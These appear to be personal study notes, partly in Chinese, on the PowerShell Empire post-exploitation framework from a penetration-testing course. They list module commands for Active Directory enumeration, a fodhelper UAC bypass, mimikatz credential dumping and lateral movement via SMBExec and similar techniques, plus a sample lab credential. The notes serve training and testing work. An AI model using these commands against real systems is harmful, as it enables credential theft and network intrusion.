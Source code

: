 23.1.3.1 Exercises
Now that we’ve walked through the basic features of PowerShell Empire, try these exercises on your own to solidify your knowledge.
1. Install and start PowerShell Empire on your Kali system.
2. Create a PowerShell Empire listener on your Kali machine and execute a stager on your Windows 10 client.
3. Experiment with the PowerShell Empire agent and its basic functionality.

## moudule

### Situational Awareness

Ad enum
> get_user, privesc, credentials dump/mimikatz

```bash
# MinLanguageVersion, minimum version of powershell, win7/2008 R2 默认为powershell 2
usemodule situational_awareness/network/powerview/get_user

```

### Credential and privesc

```bash
usemodule powershell/privesc/powerup/allchecks

usemodule privesc/bypassuac_fodhelper

(Empire: K678VC13) > usemodule credentials/mimikatz/logonpasswords
execute

mimikatz(powershell) # sekurlsa::logonpasswords

# 可通过creds store查看
(Empire: K678VC13) > creds
(Empire: K678VC13) > creds add corp.com jeff_admin Qwerty09!
```

### lateral movement
**Lateral Movement**
> Once we gain valid user credentials, we can use them to log into additional systems until we reach our objective. This is known as lateral movement.

```bash
usemodule lateral_movement/technique # space or double tap to list the tech
inveigh_relay invoke_psremoting invoke_wmi
invoke_dcom invoke_smbexec invoke_wmi_debugger
invoke_executemsbuild invoke_sqloscmd jenkins_script_console
invoke_psexec invoke_sshcommand new_gpo_immediate_task

(Empire: K678VC13) > usemodule lateral_movement/invoke_smbexec
```
![](index_files/2408fcf4-92b2-41b5-9caa-c5f1cfb6a7ee.png)
